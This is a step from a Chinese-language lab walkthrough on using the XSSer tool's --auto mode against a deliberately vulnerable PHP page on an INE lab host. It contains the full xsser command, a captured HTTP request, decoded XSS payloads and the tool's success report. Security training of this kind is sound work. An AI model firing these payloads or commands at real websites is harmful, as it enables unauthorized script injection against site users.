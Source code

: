 第 13 步：使用 XSSer 的“--auto”选项尝试各种 XSS 有效负载。

```
*选择向量*：
    这些选项可用于指定注入代码。如果您不想注入默认使用的通用 XSS 向量，这很重要。仅选择一个选项：
    --payload=SCRIPT OWN - 注入你自己的代码
    --auto AUTO - 注入 XSSer 提供的向量列表
```

命令

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto
```

```
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.3 (.NET CLR 3.5.30729) (Prevx 3.0.5)
Accept: */*
Referer: 127.0.0.1
Content-Length: 172
Content-Type: application/x-www-form-urlencoded

target_host=X%3Cx+style%3D%60behavior%3Aurl%28%23Zault%23time2%29%60+onbegin%3D%60write%2856cae530e8657c37bd00c736ae8a92c0%29%60+%3E&dns-lookup-php-submit-button=Lookup+DNSHTTP/1.1 200 OK
Date: Thu, 30 Jun 2022 13:41:29 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Set-Cookie: PHPSESSID=824d6jnicgj1vtms0o2omdlf36; path=/
Set-Cookie: showhints=1
Logged-In-User: 
X-XSS-Protection: 0
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html
```

从Wireshark捕获的数据包中，可以看到`target_host`参数的值尝试了很多payloads。

```
X<x+style=`behavior:url(#Zault#time2)`+onbegin=`write(56cae530e8657c37bd00c736ae8a92c0)`+>
<xmp>+<%25+</xmp>+<img+alt='%25></xmp><img+src=xx:x+onerror=alert(0bc574c7eeb2316f80423b2be1201cc3)//'>++<script>+x='<%25'+</script>+%25>/+alert(0bc574c7eeb2316f80423b2be1201cc3)+</script>++XXX+<style>+*['<!--']{}+</style>+-->{}+*{color:red}</style>
```

```
=============================================
[*] Injection(s) Results:
=============================================

 [FOUND !!!] -> [ 7d25fd174deffd52931cbca9a3bdb030 ] : [ target_host ]

===========================================================================
[*] Final Results:
===========================================================================

- Injections: 1291
- Failed: 4
- Successful: 1287
- Accur: 99.69016266460109 %

===========================================================================
[*] List of XSS injections:
===========================================================================
```